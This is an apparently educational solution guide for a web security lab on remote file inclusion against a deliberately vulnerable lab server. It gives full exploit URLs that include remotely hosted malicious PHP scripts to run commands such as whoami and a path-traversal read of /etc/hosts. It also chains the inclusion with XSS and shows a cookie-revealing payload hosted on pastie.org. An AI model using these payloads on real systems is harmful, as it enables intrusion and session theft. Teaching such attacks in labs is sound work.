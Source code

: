 ## Solution Guide: Remote File Inclusion Activity 

In this activity, you were tasked with first referencing a non-malicious URL to determine how it modifies the webpage. You were then tasked with referencing a remote malicious script contained within a webpage. You then modified the URL to run command-line commands with this malicious script. As a bonus, you were challenged with trying to combine RFI and XSS with a single exploit.

---

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows refrencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in Vagrant, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file

    - **Solution**: Here are the commands to run:

        - `ls`:  `http://192.168.13.25/vulnerabilities/fi/?cmd=ls&page=https://tinyurl.com/y498epmz`

        - `ps`: `http://192.168.13.25/vulnerabilities/fi/?cmd=ps&page=https://tinyurl.com/y498epmz`

        - `cat the /etc/hosts file`: `http://192.168.13.25/vulnerabilities/fi/?cmd=cat%20../../../../../etc/hosts&page=https://tinyurl.com/y498epmz`
        
4. **Bonus**: Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that contains XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the popup!

    - **Solution**: The URL to get the XSS payload to execute:

      - `http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/yxk853vy`

5. **Super Bonus**: Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint**: Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint**: To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

    - **Solution**

      - The script to pop up the session cookie will look like the following:

              <?php 
              $html = <<<EOT

              <script>alert(document.cookie)</script>

                EOT;

                echo $html;
                ?> 
                
      - Save the script in <pastie.org>, then select Save Paste > Raw.

        - A new URL will be created. For example:

          - `http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`

          - Note that your URL will be different.
          
      - Reference the example URL with the following URL:

        - `http://192.168.13.25/vulnerabilities/fi/?page=http://pastie.org/p/6MA1u2AP1qzKzDaxXi8Zwv/raw`
        
      - A pop-up will display your session cookies! 

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers; if a web application is vulnerable to remote file injection, a variety of malicious payloads can be exploited. Impacts can include the following:

          - Display of confidential data, such as user accounts, password hashes, service accounts, network information, or system processes.
        
          - Deletion or modification of the preceding confidential data, which can lead to reputation issues and system outages.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

      - There are many acceptable answers, all involving input validation. Options can include the following:
      
          - Limit access to remote files in your web application.
      
          - If the file has to be remote, use server-side validation to only allow certain files to be accessed.
      
          - When developing an application, DO NOT use arbitrary input data in a literal file inclusion request.
      
            - Use an allow list of acceptable files and file types.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 

